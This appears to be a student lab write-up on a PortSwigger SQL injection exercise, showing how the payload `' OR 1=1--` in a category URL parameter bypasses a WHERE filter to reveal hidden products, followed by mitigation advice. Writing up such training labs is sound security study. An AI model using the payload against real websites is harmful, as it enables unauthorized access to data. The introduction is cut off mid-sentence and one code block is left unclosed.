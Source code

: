 # Lab: SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

## 📌 Introduction
This report analyzes a SQL Injection vulnerability in the WHERE clause, which allows attackers to retrieve hidden data from a database. Through a practical 
## 🔍 Lab Scenario
- The application displays products stored in a database.
- Normally, users can only see specific items filtered by a `WHERE` clause.
- The goal is to manipulate this clause to bypass filters and access hidden data.
## 🛠 Exploitation Steps

### ✅ 1. Identify the Injection Point
- The vulnerable parameter is in the URL:
https://web-security-acadimy.net/filter?category=accessories
- This query is executed in the database:
  ```sql
  SELECT * FROM products WHERE category = 'accessories' AND released = 1;
### ✅ 2. Perform SQL Injection
- Modify the URL with an SQL payload:
  ```
  https://vulnerable-site.com/products?category=accessories' OR 1=1--
  ```
- The query now becomes:
  ```sql
  SELECT * FROM products WHERE category = 'accessories' OR 1=1--' AND released = 1;
  ```
- **Effect:** This retrieves **all products**, including hidden ones.
📸 *Before Injection:*  
*(Insert screenshot of normal product list)*  
![when Injection](when vulnerability.png).

📸 *After Injection:*  
![after Injection](after vulnerability.png).
## 🛡 Mitigation Strategies
- **Use Prepared Statements** to prevent SQL injection.
- **Validate user inputs** to restrict harmful values.
- **Limit database permissions** to restrict unauthorized access.
## 🔚 Conclusion
This lab demonstrated how an SQL injection in the WHERE clause can expose hidden data. The best defense is **input validation** and **prepared statements**.

---
💡 *For more details, visit:* [PortSwigger Labs](https://portswigger.net/web-security/sql-injection)
